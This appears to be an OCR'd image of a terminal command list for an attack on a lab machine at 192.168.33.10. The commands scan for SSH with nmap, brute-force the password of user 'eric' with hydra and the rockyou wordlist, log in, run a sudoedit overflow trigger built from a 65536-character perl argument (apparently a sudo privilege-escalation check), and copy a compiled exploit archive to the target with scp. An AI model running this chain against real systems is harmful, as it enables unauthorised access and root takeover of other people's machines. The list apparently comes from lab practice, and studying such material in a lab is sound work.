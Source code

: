 
nmap -sV -p22 192.168.33.0-20
cd /usr/share/wordlists
sudo gzip -d rockyou.txt.gz
hydra -l eric -P rockyou.txt 192.168.33.10 ssh
ssh eric@192.168.33.10
password
sudoedit -s '\' `perl -e 'print "A" x 65536'`

cd /blah/blah
make
# rm ~/.ssh/known_hosts
scp exploit.final.tar eric@192.168.33.10:/home/eric/

sudo apt install build-essential
sudo apt install gcc

